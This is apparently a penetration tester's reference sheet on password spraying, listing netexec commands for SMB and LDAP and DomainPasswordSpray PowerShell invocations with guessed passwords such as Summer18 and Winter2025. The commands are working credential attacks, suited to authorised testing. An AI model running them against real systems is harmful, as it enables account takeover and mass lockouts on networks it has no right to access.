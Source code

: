 # Password Spraying
NOTE: Always check or confirm lockout threshold before spraying
## netexec
- [nxc Password Spraying documentation](https://www.netexec.wiki/smb-protocol/password-spraying)
- NOTE: By default nxc will exit after a successful login is found. Using the --continue-on-success flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. This is incompatible with command execution.
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Multiple usernames (space delimeter):
```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18 --continue-on-success
```
Multiple passwords (space delimeter):
```
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Input files:
```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
```
```
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```
```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```
## DomainPasswordSpray
- [DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
- PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

